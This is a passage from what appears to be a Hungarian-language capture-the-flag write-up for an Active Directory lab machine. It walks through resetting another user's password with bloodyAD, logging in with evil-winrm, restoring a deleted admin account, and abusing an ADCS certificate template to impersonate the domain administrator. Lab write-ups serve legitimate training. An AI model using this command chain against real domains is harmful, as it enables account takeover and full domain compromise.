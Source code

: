 ```
bloodyAD --host 10.10.11.72 -d tombwatcher.htb -u 'sam' -p 'NoSecHere!' set password john 'NoSecHere'
```

---

## User shell & user flag

### Evil-WinRM login:

```
evil-winrm -i 10.10.11.72 -u john -p NoSecHere
```

- **User flag:** C:\Users\john\Desktop\user.txt

---

## Törölt cert_admin AD objektum visszaállítása

- Keresés:
```
Get-ADObject -filter {SamAccountName -eq 'cert_admin'} -IncludeDeletedObjects
```
- Restore:
```
Restore-ADObject -Identity <GUID>
```
- Enable:
```
Enable-ADAccount -Identity cert_admin
```
- Jelszó reset:
```
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString "NoSecHere" -AsPlainText -Force)
```

---

## ADCS escalation – Domain Admin certi chain

### Sablon enum:

```
certipy-ad find -u cert_admin -p 'NoSecHere' -dc-ip 10.10.11.72 -vulnerable
```

### Admin cert szerzés (régi certipy):

```
python3 entry.py req -dc-ip 10.10.11.72 -ca tombwatcher-CA-1 -u cert_admin@tombwatcher.htb -p 'NoSecHere' -template WebServer -upn administrator@tombwatcher.htb -application-policies 1.3.6.1.5.5.7.3.2
```
- **UPN:** administrator@tombwatcher.htb
